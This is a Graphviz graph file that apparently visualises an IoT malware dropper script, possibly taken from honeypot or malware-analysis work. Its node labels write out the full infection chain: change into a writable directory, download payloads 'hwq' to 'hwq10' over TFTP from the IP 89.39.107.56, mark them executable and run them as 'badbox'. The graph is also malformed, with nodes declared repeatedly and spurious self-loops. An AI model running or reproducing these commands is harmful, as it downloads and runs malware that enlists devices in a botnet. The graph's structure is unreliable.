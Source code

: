 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 14 [label="||,"];
14 [label="tftp -r hwq -g 89.39.107.56 "];
14 -> 16 [label=";,"];
16 [label="cat hwq badbox "];
16 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 34 [label="||,"];
34 [label="tftp -r hwq1 -g 89.39.107.56 "];
34 -> 36 [label=";,"];
36 [label="cat hwq1 badbox "];
36 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 54 [label="||,"];
54 [label="tftp -r hwq2 -g 89.39.107.56 "];
54 -> 56 [label=";,"];
56 [label="cat hwq2 badbox "];
56 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 74 [label="||,"];
74 [label="tftp -r hwq3 -g 89.39.107.56 "];
74 -> 76 [label=";,"];
76 [label="cat hwq3 badbox "];
76 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 94 [label="||,"];
94 [label="tftp -r hwq4 -g 89.39.107.56 "];
94 -> 96 [label=";,"];
96 [label="cat hwq4 badbox "];
96 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 114 [label="||,"];
114 [label="tftp -r hwq5 -g 89.39.107.56 "];
114 -> 116 [label=";,"];
116 [label="cat hwq5 badbox "];
116 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 134 [label="||,"];
134 [label="tftp -r hwq6 -g 89.39.107.56 "];
134 -> 136 [label=";,"];
136 [label="cat hwq6 badbox "];
136 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 154 [label="||,"];
154 [label="tftp -r hwq7 -g 89.39.107.56 "];
154 -> 156 [label=";,"];
156 [label="cat hwq7 badbox "];
156 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 174 [label="||,"];
174 [label="tftp -r hwq8 -g 89.39.107.56 "];
174 -> 176 [label=";,"];
176 [label="cat hwq8 badbox "];
176 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 194 [label="||,"];
194 [label="tftp -r hwq9 -g 89.39.107.56 "];
194 -> 196 [label=";,"];
196 [label="cat hwq9 badbox "];
196 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 214 [label="||,"];
214 [label="tftp -r hwq10 -g 89.39.107.56 "];
214 -> 216 [label=";,"];
216 [label="cat hwq10 badbox "];
216 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
}
